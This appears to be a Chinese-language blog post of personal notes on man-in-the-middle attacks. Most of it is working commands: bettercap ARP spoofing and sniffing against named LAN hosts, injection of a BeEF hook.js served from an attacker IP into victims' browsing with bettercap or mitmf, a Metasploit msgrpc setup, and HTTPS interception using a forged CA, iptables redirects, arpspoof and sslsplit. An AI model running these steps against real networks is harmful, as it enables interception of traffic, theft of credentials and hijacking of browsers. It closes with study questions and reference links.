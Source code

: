 ```yaml
---
layout: post
title: 中间人攻击（MITM）随笔
categories: 安全工程师
kerywords: 中间人攻击 sniffer hook.js 
tags: 工具
---
```


# sniffer (ICMP/ARP)
> `bettercap -I enp0s31f6 -T 172.16.10.232 -S ARP -X --sniffer --proxy -P POST --log-timestamp --log /root/Desktop/232 --silent`

# hook.js and msfconsole

* beef
> `vim config.yaml`
> `vim extensions/metasploit/config.yaml`

* metasploit
> `load msgrpc ServerHost=172.16.10.222 Pass=abc123 SSL=y`
>> 如果不加ssl,需要确定在beef的配置文件中将ssl_vertify设置为false即可

* start beef
* Inject js
>`bettercap -I enp0s31f6 -T 172.16.10.246 -S ARP -X --sniffer --proxy -P POST --proxy --proxy-module injectjs --js-url http://172.16.10.222:3000/hook.js
`
>> 查看帮助 `bettercap --proxy-module injectjs -h`

> 我使用了下mitmf,感觉没有bettercap好用,mitmf是这样用的` python mitmf.py -i enp0s31f6 --arp --spoof --target 172.16.10.246 --gateway 172.16.10.1 --hsts --inject --js-url http://172.16.10.222:3000/hook.js`
>> 端口号占用需要修改config目录下的mitmf.conf, 以上两个都需要root权限


# https中间人

* `apt-get install libssl-dev libevent-dev`

* 
```bash
openssl genrsa -out ca.key 2048
openssl req -new -x509 -days 1096 -key ca.key -out ca.crt
```
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443
iptables -t nat -A PREROUTING -p tcp --dport 995 -j REDIRECT --to-ports 8443
```

```bash
arpspoof -i eth0 -t target -r gateway
sslsplit -D -l connect.log -j  ./test -S ./log -k ca.key -c ca.crt ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
# 端口是你设置的转发端口
```

* DNS 欺骗的方式有哪些？
* MITM攻击除了DNS之外呢？
* DNS传输数据的方式,哪些工具?
* 如何内网防嗅探，防数据泄露?
* bettercap 的proxy modules怎么使用
* sslsplit 和ssltrip的原理差异
* 内网攻击有哪些方式
* 对比[mitmproxy](http://docs.mitmproxy.org/en/stable/mitmproxy.html)这类工具呢?


# 资源
* [中间人毒化攻击](http://www.freebuf.com/articles/system/5157.html)
* [Wifi 与bettercap中间人攻击](https://charlesreid1.com/wiki/MITM_Labs/Bettercap_Over_Wifi)
* [SSLSplit](https://www.roe.ch/SSLsplit)
* [Bettercap](https://danielmiessler.com/study/bettercap/)